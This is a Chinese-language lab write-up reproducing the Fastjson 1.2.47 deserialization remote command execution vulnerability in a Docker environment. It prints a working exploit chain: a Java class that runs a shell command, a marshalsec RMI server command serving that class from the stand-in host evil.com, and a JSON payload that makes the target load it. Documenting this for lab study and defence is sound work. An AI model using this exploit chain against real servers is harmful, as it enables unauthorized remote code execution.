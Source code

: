 # Fastjson 1.2.47 远程命令执行漏洞

Fastjson是阿里巴巴公司开源的一款json解析器，其性能优越，被广泛应用于各大厂商的Java项目中。fastjson于1.2.24版本后增加了反序列化白名单，而在1.2.48以前的版本中，攻击者可以利用特殊构造的json字符串绕过白名单检测，成功执行任意命令。

参考链接：

- https://cert.360.cn/warning/detail?id=7240aeab581c6dc2c9c5350756079955
- https://www.freebuf.com/vuls/208339.html

## 漏洞环境

执行如下命令启动一个spring web项目，其中使用fastjson作为默认json解析器：

```shell
docker-compose up -d
```

环境启动后，访问`http://your-ip:8090`即可看到一个json对象被返回，我们将content-type修改为`application/json`后可向其POST新的JSON对象，后端会利用fastjson进行解析。

## 漏洞复现

目标环境是`openjdk:8u102`，这个版本没有`com.sun.jndi.rmi.object.trustURLCodebase`的限制，我们可以简单利用RMI进行命令执行。

首先编译并上传命令执行代码，如`http://evil.com/TouchFile.class`：

```java
// javac TouchFile.java
import java.lang.Runtime;
import java.lang.Process;

public class TouchFile {
    static {
        try {
            Runtime rt = Runtime.getRuntime();
            String[] commands = {"touch", "/tmp/success"};
            Process pc = rt.exec(commands);
            pc.waitFor();
        } catch (Exception e) {
            // do nothing
        }
    }
}
```

然后我们借助[marshalsec](https://github.com/mbechler/marshalsec)项目，启动一个RMI服务器，监听9999端口，并制定加载远程类`TouchFile.class`：

```shell
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://evil.com/#TouchFile" 9999
```

向靶场服务器发送Payload：

```
{
    "a":{
        "@type":"java.lang.Class",
        "val":"com.sun.rowset.JdbcRowSetImpl"
    },
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"rmi://evil.com:9999/Exploit",
        "autoCommit":true
    }
}
```

![](1.png)

可见，命令`touch /tmp/success`已成功执行：

![](2.png)

更多利用方法请参考JNDI注入相关知识。
